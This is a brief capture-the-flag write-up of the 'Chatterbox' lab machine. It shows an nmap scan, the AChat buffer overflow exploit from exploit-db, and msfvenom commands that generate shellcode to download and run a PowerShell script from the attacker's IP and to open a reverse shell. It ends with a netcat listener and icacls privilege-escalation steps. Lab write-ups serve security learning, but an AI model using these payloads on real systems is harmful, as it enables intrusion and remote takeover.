 ----------------------------------------------------
# Author -> Shubham Rannpise
----------------------------------------------------
# Chatterbox
# 11/4/2023
10.10.10.74

----------------------------------------------------
# nmap
----------------------------------------------------
└─$  nmap -sT -p- --min-rate 5000 --max-retries 1 10.10.10.74    
PORT    STATE SERVICE
135/tcp open  msrpc
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

----------------------------------------------------
# foothold
----------------------------------------------------
└─$ searchsploit Achat                  

https://www.exploit-db.com/raw/36025

Exploitation
AChat Buffer Overflow
Exploit: https://www.exploit-db.com/exploits/36025/
Using msfvenom, it is possible to generate shellcode for use in the above exploit. The command
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object
Net.WebClient).downloadString('http://<LABIP>/writeup.ps1')\"" -e x86/unicode_mixed -b
'\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\
x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa
9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\
xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\x
d5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea
\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
BufferRegister=EAX -f python will generate shellcode which downloads and executes a
powershell script from the attacking machine. Opening a reverse shell is fairly trivial.


-->
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.16.2 LPORT=1234 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python

└─$ rlwrap nc -lvnp 1234 

cope buffer from msfvenom and add to python exploit,modify python exploit target ip and run
you get rev shell

----------------------------------------------------
# priv esc
----------------------------------------------------
C:\Users\Administrator\Desktop>net user Alfred

C:\Users\Administrator\Desktop>whoami /priv

C:\Users\Administrator\Desktop>systeminfo

C:\Users\Administrator\Desktop>icacls root.txt

C:\Users\Administrator\Desktop>dir /q root.txt

C:\Users\Administrator\Desktop>icacls root.txt /grant Alfred:F
